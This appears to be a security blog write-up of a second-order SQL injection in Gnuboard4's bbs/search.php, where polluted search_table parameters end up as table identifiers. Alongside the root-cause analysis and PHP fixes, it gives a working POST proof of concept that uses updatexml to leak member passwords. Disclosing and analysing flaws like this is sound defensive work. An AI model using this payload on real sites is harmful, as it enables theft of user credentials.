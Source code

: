```yaml
---
permalink: 2025/09/16/gnuboard4-sqli/
tags:
  - SQL注入
  - gnuboard4
layout: post
date: '2025-09-16 08:00:00'
categories:
  - web安全
  - 代码审计
  - 漏洞挖掘
home_cover: 'https://cdn.jsdelivr.net/gh/handbye/images@master/uPic/2025/09/JocM2R.png'
title: Second-order SQL Injection via variable pollution of search_table (identifier injection) in bbs/search.php
---
```


## Second-Order SQL Injection in Gnuboard4: Variable Pollution Meets Identifier Injection


When we talk about SQL injection, most folks picture a simple quote escape gone wrong in a value. But some of the most dangerous exploits happen in less obvious places—like identifiers (table names) and across multiple steps of request handling. In this post, we’ll walk through a second-order SQL injection in Gnuboard4’s `bbs/search.php` that’s enabled by variable pollution and executed as an identifier injection in the `FROM` clause.


### TL;DR

- The array `search_table` can be polluted via request parameters.
- Later, the polluted value is used as a table name without whitelist validation or quoting.
- This enables SQL injection in the identifier position, which typical escaping can’t fix.
- Impact: error-based and blind data exfiltration, JOIN injection, query truncation.

### Affected Code


The vulnerable usage occurs when composing the `FROM` clause from `$search_table[$idx]`:


```text
        $tmp_write_table = $g4[write_prefix] . $search_table[$idx];

        $sql = " select * from $tmp_write_table where $sql_search order by wr_id desc limit $from_record, $rows ";
        $result = sql_query($sql);

```


A similar pattern exists in the counting query:


```text
        $tmp_write_table   = $g4[write_prefix] . $g4_search[tables][$i];

        $sql = " select wr_id from $tmp_write_table where $sql_search ";

```


In legacy PHP stacks, request parameters are often extracted into same-named variables. That means an attacker can directly post `search_table[1]=...` and `table_index=1`, overwriting the server-side array and steering the subsequent query.


### Why This Is Second-Order Injection

- First order: the attacker “poisons” server state by overriding `search_table[]` and `table_index` via POST.
- Second order: the poisoned value is later treated as a table identifier in `FROM`, where normal string escaping is ineffective. Because the position is an identifier (not a quoted value), this allows injection of JOINs, ORDER BY, and even comment-based truncation.

### Proof of Concept (POST)


Replace `<host>` with your target host. To improve stability, replace `z2_0` with a board suffix that exists in your environment (e.g., `free`, `notice`) so `g4_write_<suffix>` actually exists.


```text
POST /gnuboard4/bbs/search.php HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded

srows=2&gr_id=test&sfl=wr_content&stx=123&sop=or&table_index=1&&search_table[0]=test&search_table[1]=z2_0+order%20by%20updatexml(1,concat(0x7e,(select%20mb_password%20from%20g4_member%20where%20mb_no=1),0x7e),1)#

```


What happens:

- `$tmp_write_table` becomes `g4_write_z2_0 order by updatexml(...)#`
- `#` comments out the rest of the query (`WHERE ... ORDER BY wr_id ... LIMIT ...`)
- `updatexml()` raises a controlled error embedding the subquery result—classic error-based exfiltration.

Even if error messages are suppressed, the same primitive can be adapted to time-based (blind) injection.


### Impact

- Exfiltration of sensitive data (e.g., credentials from `g4_member`) via error-based or blind SQLi.
- Injection of arbitrary JOINs to expand the result set and bypass intended filters.
- Query logic truncation by injecting comment markers.

### Root Causes

- Variable pollution: server trusts same-named request parameters to populate application variables/arrays.
- Identifier injection: unvalidated, unquoted table identifiers are constructed from user-controlled values.
- Lack of defense-in-depth on key control variables (`search_table`, `table_index`, etc.).

### Minimal, Practical Remediation

- Rebuild sensitive arrays before use to defeat pollution:

```php
// Prevent variable pollution: rebuild server-side state
unset($search_table, $read_level, $table_index);
$search_table = array();
$read_level = array();
$table_index = 0;

```

- Whitelist and quote identifiers; only allow `[A-Za-z0-9_]` within a bounded length, and wrap with backticks:

```php
// Identifier hardening: whitelist and quote
$tbl = $g4_search[tables][$i];
if (!preg_match('/^\\w{1,30}$/', $tbl)) continue;
$tmp_write_table = "`{$g4['write_prefix']}{$tbl}`";

```

- Enforce integer types for indices/paging:

```php
$page = (int)$page ?: 1;
$rows = (int)$srows ?: 10;
$from_record = (int)$from_record;
$table_index = isset($table_index) ? (int)$table_index : 0;

```

- Avoid `extract($_REQUEST)`style patterns entirely. If refactoring is not feasible, explicitly `unset` sensitive names from `$_REQUEST` before any extraction.

### Verification Checklist

- Before fix: observe SQL errors containing `updatexml` and `FROM g4_write_... order by ... #`.
- After fix: same PoC should neither alter the `FROM` clause nor leak data; `search_table[]` and `table_index` from the request must not influence server-side arrays.

### Closing Thoughts


Second-order bugs thrive in systems that mix legacy request handling with dynamic SQL generation. Any time a user-controlled value can shape identifiers or query structure—not just values—you need whitelists and strict rebuilding of server state. This case in Gnuboard4 is a compact example of how variable pollution escalates into full SQL injection at the identifier level.


—


If you maintain a similar stack, audit for:

- Any place identifiers are built from variables.
- Any global extraction of request parameters.
- Any “reusable” arrays rebuilt across requests without sanitization.
